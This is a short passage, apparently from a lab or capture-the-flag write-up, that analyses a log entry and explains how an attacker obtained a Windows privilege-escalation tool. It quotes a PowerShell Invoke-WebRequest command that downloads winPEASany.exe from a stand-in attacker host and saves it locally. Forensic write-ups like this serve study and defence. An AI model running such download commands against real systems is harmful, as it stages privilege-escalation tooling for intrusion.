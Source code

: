 ![](PNG/Notes_PNG_19.png)

Further investigation into this log, the entire command is:
`powershell -c Invoke-WebRequest -Uri "http://evilparrot.thm/winPEASany.exe" -OutFile "winPEAS.exe"`

From this command, it appears that the attacker used the *Invoke-WebRequest* cmdlet to download **winPEASany.exe** file from the attacker's server and saving it as **winPEAS.exe**.
- winPEAS is a script that searches for possible paths to escalate privileges on Windows hosts.
